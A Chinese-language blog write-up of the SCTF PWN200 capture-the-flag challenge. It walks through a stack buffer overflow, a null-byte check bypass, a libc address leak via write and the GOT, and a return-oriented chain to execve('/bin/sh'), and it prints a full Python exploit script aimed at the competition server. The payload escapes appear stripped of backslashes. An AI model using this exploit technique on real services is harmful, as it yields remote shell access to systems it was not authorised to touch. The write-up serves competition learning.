 ```yaml
---
title: SCTF PWN200 WriteUp
author: Ripples
layout: post
permalink: /sctf-pwn200-writeup/
views:
  - 395
categories:
  - CTF
tags:
  - buffer overflow
  - CTF
  - ROP
  - SCTF
  - WriteUp
---
```

<p style="text-indent: 2em;">
  现在总算是考完试了，虽说也没能闲下来，但至少心里没考试前那么蛋疼了，就抽点空把之前的writeup给补上……
</p>

<p style="text-indent: 2em;">
  不过时间有点久了，可能细节不一定能记得那么清楚了，大概写下就是了~~~
</p>

<p style="text-indent: 2em;">
  IDA反编译得到的程序如下：
</p>

<!--more-->

<pre class="brush:cpp;toolbar:false">ssize_t&nbsp;__cdecl&nbsp;sub_80484AC()
{
&nbsp;&nbsp;ssize_t&nbsp;result;&nbsp;//&nbsp;eax@3
&nbsp;&nbsp;char&nbsp;v1;&nbsp;//&nbsp;[sp+1Ch]&nbsp;[bp-9Ch]@1
&nbsp;&nbsp;int&nbsp;buf;&nbsp;//&nbsp;[sp+9Ch]&nbsp;[bp-1Ch]@1
&nbsp;&nbsp;int&nbsp;v3;&nbsp;//&nbsp;[sp+A0h]&nbsp;[bp-18h]@1
&nbsp;&nbsp;int&nbsp;v4;&nbsp;//&nbsp;[sp+A4h]&nbsp;[bp-14h]@1
&nbsp;&nbsp;int&nbsp;v5;&nbsp;//&nbsp;[sp+A8h]&nbsp;[bp-10h]@1
&nbsp;&nbsp;size_t&nbsp;nbytes;&nbsp;//&nbsp;[sp+ACh]&nbsp;[bp-Ch]@1
&nbsp;&nbsp;nbytes&nbsp;=&nbsp;16;
&nbsp;&nbsp;buf&nbsp;=&nbsp;0;
&nbsp;&nbsp;v3&nbsp;=&nbsp;0;
&nbsp;&nbsp;v4&nbsp;=&nbsp;0;
&nbsp;&nbsp;v5&nbsp;=&nbsp;0;
&nbsp;&nbsp;memset(&v1,&nbsp;0,&nbsp;0x80u);
&nbsp;&nbsp;write(1,&nbsp;"input&nbsp;name:",&nbsp;0xCu);
&nbsp;&nbsp;read(0,&nbsp;&buf,&nbsp;nbytes&nbsp;+&nbsp;1);
&nbsp;&nbsp;if&nbsp;(&nbsp;strlen((const&nbsp;char&nbsp;*)&buf)&nbsp;-&nbsp;1&nbsp;&gt;&nbsp;9&nbsp;||&nbsp;strncmp("syclover",&nbsp;(const&nbsp;char&nbsp;*)&buf,&nbsp;8u)&nbsp;)
&nbsp;&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;result&nbsp;=&nbsp;-1;
&nbsp;&nbsp;}
&nbsp;&nbsp;else
&nbsp;&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;write(1,&nbsp;"input&nbsp;slogan:",&nbsp;0xEu);
&nbsp;&nbsp;&nbsp;&nbsp;read(0,&nbsp;&v1,&nbsp;nbytes);
&nbsp;&nbsp;&nbsp;&nbsp;result&nbsp;=&nbsp;write(1,&nbsp;&v1,&nbsp;nbytes);
&nbsp;&nbsp;}
&nbsp;&nbsp;return&nbsp;result;
}</pre>

<p style="text-indent: 2em;">
  这题很明显，在第一次读入的时候，存在着溢出的问题，而这一次溢出正好可以修改到下一次读入的时候的长度那个变量，这样就可以在下一次读入的时候破掉长度限制，从而可以在下一次读入的时候进一步的溢出，修改返回值地址。
</p>

<p style="text-indent: 2em;">
  这里需要注意的是，它第一次读入之后和字符串syclover用strncmp做了个比较，这里比较的长度是8，并且strlen的判断保证读入字符串长度要不大于10，而我们溢出所需要的长度不止10，那么这里就得注意到读入字符串的时候用的read函数，而read的特点是不会被x00这种字符断掉，那么正好可以在读入的字符串中间插入x00，这样就可以过掉strlen和strncmp的判断了。
</p>

<p style="text-indent: 2em;">
  接下来就是一个困扰我好久的问题，这题的堆栈都是不可运行的，我们无法传入shellcode，而调用execve等系统调用需要知道其地址，而由于是nc过去的，不像之前做wargame的时候都是ssh上去，可以看到系统函数的地址。那么我们这里就要注意到，它给的文件中，除了主程序，还有一个libc.so，那么这里很明确，就是需要我们通过给的libc来计算出我们所需函数的地址（libc载入之后各函数的相对位置不变）。可是计算地址需要我们知道某一个libc中函数的地址，如何拿到一个函数的地址着实让我想了好久。
</p>

<p style="text-indent: 2em;">
  其实这个问题本身并不难，只是由于太习惯了做wargame时候那种SSH上去直接看的方式，所以思路没打开，其实我们很显然可以通过调用write函数来把某一个系统函数真正的地址输出除了，write函数由于它程序中使用了，所以GOT表中是由对应项的，我们可以很轻松的调用。
</p>

<p style="text-indent: 2em;">
  最后，当我们通过这样的方式输出并计算得到execve的函数地址之后，如果再次重新运行溢出其实还是会有问题的，这里就涉及到服务器端实现的方法了，服务器端应该是对于每一个请求，单独载入对应的libc运行程序，所以每一次请求的libc地址是会不同的，也就是说我们需要在一次请求中拿到地址，然后计算出execve地址后再调用，这很容易就会想到是在一轮函数调用之后，控制程序返回到整个程序的开头（栈的结构使得我们有一次机会可以控制我们溢出调用函数后返回的位置，这个在之前做wargame的时候就有过），然后开始全新的一轮，这样我们就有机会一次次的溢出，调用我们所需要的函数。其实这个方法也有个专门的名称，叫ROP(Return-oriented programming)，我也是比完才知道……
</p>

<p style="text-indent: 2em;">
  至此，整个攻击流程已经清楚，下面是我比赛时的程序：
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python
#encoding:utf-8

import&nbsp;socket
import&nbsp;binascii

s&nbsp;=&nbsp;socket.socket(socket.AF_INET,&nbsp;socket.SOCK_STREAM)
s.connect((&#39;218.2.197.248&#39;,&nbsp;10001))
s.recv(100)

s.send("sycloverx00aaaaaaaxb4""aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb""xa0x83x04x08""xacx84x04x08""x01x00x00x00""x50x98x04x08""x04x00x00x00")
result&nbsp;=&nbsp;s.recv(100)
while&nbsp;result.find(&#39;slogan&#39;)&nbsp;==&nbsp;-1&nbsp;or&nbsp;result.find(&#39;slogan&#39;)&nbsp;+&nbsp;8&nbsp;&gt;&nbsp;len(result)&nbsp;-&nbsp;4:
&nbsp;&nbsp;&nbsp;&nbsp;result&nbsp;+=&nbsp;s.recv(100)

print&nbsp;result
read_addr&nbsp;=&nbsp;binascii.hexlify(result[result.find(&#39;slogan&#39;)&nbsp;+&nbsp;8:][:4][::-1])
print&nbsp;&#39;0x%s&#39;&nbsp;%&nbsp;read_addr

s.send("sycloverx00aaaaaaaxb4""aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb""xa0x83x04x08""xacx84x04x08""x01x00x00x00""x60x98x04x08""x04x00x00x00")
result&nbsp;=&nbsp;s.recv(100)
while&nbsp;result.find(&#39;slogan&#39;)&nbsp;==&nbsp;-1&nbsp;or&nbsp;result.find(&#39;slogan&#39;)&nbsp;+&nbsp;8&nbsp;&gt;&nbsp;len(result)&nbsp;-&nbsp;4:
&nbsp;&nbsp;&nbsp;&nbsp;result&nbsp;+=&nbsp;s.recv(100)

print&nbsp;result
write_addr&nbsp;=&nbsp;binascii.hexlify(result[result.find(&#39;slogan&#39;)&nbsp;+&nbsp;8:][:4][::-1])
print&nbsp;&#39;0x%s&#39;&nbsp;%&nbsp;write_addr

print&nbsp;hex(0xb8240&nbsp;-&nbsp;0xde3a0&nbsp;+&nbsp;int(read_addr,&nbsp;16))

s.send("sycloverx00aaaaaaaxb4""aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb""x60x83x04x08""xacx84x04x08""x00x00x00x00""x68x98x04x08""x08x00x00x00")
s.send("/bin/shx00")
while&nbsp;result.find(&#39;slogan&#39;)&nbsp;==&nbsp;-1:
&nbsp;&nbsp;&nbsp;&nbsp;result&nbsp;+=&nbsp;s.recv(100)

print&nbsp;result

s.send("sycloverx00aaaaaaaxb4""aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb""xa0x83x04x08""xacx84x04x08""x01x00x00x00""x68x98x04x08""x08x00x00x00")
result&nbsp;=&nbsp;s.recv(100)
while&nbsp;result.find(&#39;slogan&#39;)&nbsp;==&nbsp;-1&nbsp;or&nbsp;result.find(&#39;slogan&#39;)&nbsp;+&nbsp;8&nbsp;&gt;&nbsp;len(result)&nbsp;-&nbsp;8:
&nbsp;&nbsp;&nbsp;&nbsp;result&nbsp;+=&nbsp;s.recv(100)

print&nbsp;result
print&nbsp;result[result.find(&#39;slogan&#39;)&nbsp;+&nbsp;8:][:8]

s.send("sycloverx00aaaaaaaxb4""aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb"&nbsp;+&nbsp;binascii.unhexlify(hex(0x3f430&nbsp;-&nbsp;0xde3a0&nbsp;+&nbsp;int(read_addr,&nbsp;16))[2:])[::-1]&nbsp;+&nbsp;"xacx84x04x08""x68x98x04x08"&nbsp;+&nbsp;&#39;x00&#39;&nbsp;*&nbsp;8)

s.send(&#39;cat&nbsp;/home/pwn1/ffLLag_/flagn&#39;)
while&nbsp;True:
&nbsp;&nbsp;&nbsp;&nbsp;print&nbsp;s.recv(100)</pre>

<p style="text-indent: 2em;">
  其中前两次溢出分别是取得read和write载入内存的真实地址（其实只要获取一个就好）；第三次溢出是将/bin/sh这个字符串写入内存中一个固定位置，因为execve的参数中需要用，这里我是选择写在GOT表所在位置，因为可以肯定有写权限，不会崩；第四次溢出是输出看一下写入是否正确，可以不用；第五次溢出就是调用execve运行shell了。
</p>

<p style="text-indent: 2em;">
  不得不说，这题其实不难，思路很清楚，只是由于之前从没接触过这种形式的，所以浪费了不少时间……
</p>

<p style="line-height: 16px; text-indent: 2em;">
  <img src="http://geekjayvic.sinaapp.com/wp-content/plugins/wp-ueditor2/ueditor/dialogs/attachment/fileTypeImages/icon_rar.gif" /><a href="http://geekjayvic-wordpress.stor.sinaapp.com/uploads/2015/01/pwn200.zip">pwn200.zip</a>
</p>
